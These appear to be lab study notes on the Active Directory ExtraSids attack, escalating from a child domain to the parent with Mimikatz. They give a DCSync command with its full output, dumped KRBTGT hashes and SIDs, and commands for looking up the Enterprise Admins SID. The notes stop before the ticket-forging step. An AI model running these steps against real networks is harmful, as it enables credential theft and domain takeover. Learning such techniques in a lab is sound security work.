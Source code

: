 ## ExtraSids Attack - Mimikatz
- Compromise child domain -> compromise parent domain.
- User in child domain has sidHistory set to `Enterprise Admins group` (which only exists in parent domain) -> treated as a member of the group -> has administrative access to the entire parent domain.
- We need
	- KRBTGT hash for the child domain (1)
	- SID of the child domain (2)
	- Name of the user from the child domain (does not need to exist) (3)
	- The FQDN of the child domain (4)
	- the SID of the Enterprise Admins group of the root domain (5)

#### Obtain the KRBTGT NT hash from the child domain
```PowerShell
mimikatz
lsadump::dcsync /user:LOGISTICS\krbtgt

[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 11:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
    lm  - 0: 69df324191d4a80f0ed100c10f20561e
```

- We use `Get-DomainSID` to get the SID of the child domain. This can also be achieved from mimikatz (Object security ID, without the Object Relative ID 502)

- Get `Enterprise Admins group` sid
```PowerShell
# Get-DomainGroup
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid                                    
-----------------                                       ---------                                    
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519

OR 

Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
```
